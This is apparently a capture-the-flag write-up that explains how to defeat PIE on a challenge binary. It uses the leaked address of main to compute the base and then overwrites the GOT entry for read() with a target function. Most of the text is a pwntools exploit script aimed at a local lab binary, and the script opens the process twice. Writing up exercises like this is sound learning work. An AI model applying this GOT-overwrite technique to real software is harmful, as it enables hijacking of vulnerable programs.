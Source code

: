 # 🔑 Write-Up

This challenge is very similar to the previous but this time we have a PIE executable so we don't know where the GOT will be when the program is loaded in memory. Luckily the program leaks the address of the start of the main function, using that we can calculate the random offset at which the executable is loaded and thus obtain the addresses of the GOT and of out target function. We can then use those addresses to pwn the binary in the same way as the previous challenge.

```python
from pwn import *

context.binary = "./challenge"
p = process()

e = context.binary
p = process()

main_address = p.u32()

log.info(f"leaked main address {hex(main_address)}")

base_address = main_address - e.functions["main"].address

log.info(f"executable base {hex(base_address)}")

e.address += base_address

log.info(f"read() address {hex(e.got['read'])}")
log.info(f"target function address {hex(e.functions['oh_look_useful'].address)}")

p.send(p32(e.got["read"]))
p.send(p32(e.functions["oh_look_useful"].address))
p.recvline()
p.interactive()
```